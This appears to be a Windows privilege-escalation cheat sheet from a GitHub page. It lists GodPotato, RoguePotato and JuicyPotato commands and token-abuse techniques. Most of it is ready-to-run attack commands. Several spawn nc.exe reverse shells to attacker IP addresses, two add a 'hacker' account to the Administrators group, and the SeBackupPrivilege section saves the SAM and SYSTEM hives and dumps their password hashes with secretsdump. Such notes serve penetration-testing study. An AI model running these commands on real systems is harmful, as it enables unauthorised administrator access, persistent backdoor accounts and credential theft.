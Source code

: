 ##### Godpotato
ImpersonatePrivilege permission required  
Windows Server 2012 - Windows Server 2022, Windows 8 - Windows 11
```
GodPotato-NET4.exe
GodPotato.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.1.102(LHOST) 2012(LPORT)"
nc.exe -nlvp 2012

Local Shell:
GodPotato.exe -cmd "cmd.exe"

Add User to Privileged Group:
GodPotato.exe -cmd "net user hacker Password123! /add"
GodPotato.exe -cmd "net localgroup Administrators hacker /add"

Affected version:
Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11
```
Check .Net Version
```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
```
![image](https://github.com/user-attachments/assets/cae43a79-e6ba-4c1a-9294-0947fc636b3c)

##### Rogue Potato
ImpersonatePrivilege permission required
```
RoguePotato.exe -r 10.10.10.3(LHOST) -e "nc.exe 10.10.10.3 3001 -e cmd.exe" -l 9999
# In some old versions you need to use the "-f" param
RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999

nc.exe -nlvp 3001
```
##### JuicyPotato
SeImpersonatePrivilege Impersonate a client after authentication Enabled + Windows Serverr 2008 Standard = JuicyPotato  
SeImpersonate or SeAssignPrimaryToken privileges Required  
Visit https://ohpe.it/juicy-potato/CLSID/ for a list of CLSIDs to try.
```
JuicyPotato.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}/{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c C:\wamp\www\nc.exe -e cmd.exe 192.168.45.219 4444" -t *
```
### Token Abuse
Tips: Always try cmd.exe with admin rights to check for more priv  
Full token privileges cheatsheet at https://github.com/gtworek/Priv2Admin
##### SeBackupPrivilege
```
windows: reg save HKLM\SAM C:\users\public\SAM
windows: reg save HKLM\SYSTEM C:\users\public\SYSTEM

copy sam and system to kali

impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```
##### SeRestorePrivilege To System
```
Terminal Version:

.\EnableSeRestorePrivilege.ps1 (Enable SeRestore)
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
cmd.exe /c sc qc seclogon
```